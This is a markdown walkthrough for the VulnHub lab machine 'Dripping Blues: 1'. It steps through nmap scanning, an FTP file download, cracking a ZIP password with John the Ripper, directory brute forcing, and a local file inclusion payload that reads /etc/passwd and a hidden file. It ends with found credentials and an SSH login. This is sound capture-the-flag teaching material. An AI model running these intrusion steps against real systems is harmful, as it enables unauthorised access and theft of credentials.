






# Dripping Blues: 1

## Machine Information

- **Machine:** Dripping Blues: 1
- **Platform:** VulnHub
- **Download:** https://www.vulnhub.com/entry/dripping-blues-1,744/

---

# Network Scanning

## Find Target IP

Scan the local network to identify the target machine.

```bash
nmap -sn 192.168.2.0/24
```



---

## Full Nmap Scan

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.123
```


---

## Scan All TCP Ports (Optional)

```bash
nmap -v -p- 192.168.2.123
```

---

## Aggressive Scan

```bash
nmap -sC -sV -A 192.168.2.123
```

This scan performs:

- Service detection
- Version detection
- OS detection
- Default NSE scripts

---

## HTTP Enumeration

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.123
```



---

# FTP Enumeration

## Connect to FTP

```bash
ftp 192.168.2.123
```

---

## List Files

```bash
ls
```

---

## Download ZIP File

```bash
get respectmydrip.zip
```



---

## Extract ZIP Archive

```bash
unzip respectmydrip.zip
```

Password is required.


---

## Crack ZIP Password

Generate the password hash.

```bash
zip2john respectmydrip.zip > hash.txt
```


Crack the hash using John the Ripper.

```bash
john hash.txt --wordlist=/opt/rockyou.txt
```



---

## Extract the Archive Again

```bash
unzip respectmydrip.zip
```

Read the extracted file.

```bash
cat respectmydrip.txt
```


---

# Web Enumeration

Visit:

```
http://192.168.2.123/
http://192.168.2.123/robots.txt
http://192.168.2.123/dripisreal.txt
```



---

## Directory Bruteforce

```bash
gobuster dir \
-u http://192.168.2.123 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x php,txt,html \
-t 50
```


---

## Local File Inclusion (LFI)

Browse to:

```
http://192.168.2.123/index.php
```

Identify the vulnerable parameter.

```bash
wfuzz -u 'http://192.168.2.123/index.php?FUZZ=/etc/passwd' \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
--hw 21
```


Test the parameter.

```
http://192.168.2.123/index.php?drip=/etc/passwd
```


Load the file referenced in `robots.txt`.

```
http://192.168.2.123/index.php?drip=/etc/dripispowerful.html
```



View the page source.

```text
view-source:http://192.168.2.123/index.php?drip=/etc/dripispowerful.html
```


---

## Credentials Discovered

Password:

```text
imdrippinbiatch
```

Possible usernames:

```text
travisscott
thugger
```

---

# SSH Access

Connect via SSH.

```bash
ssh thugger@192.168.2.123
```

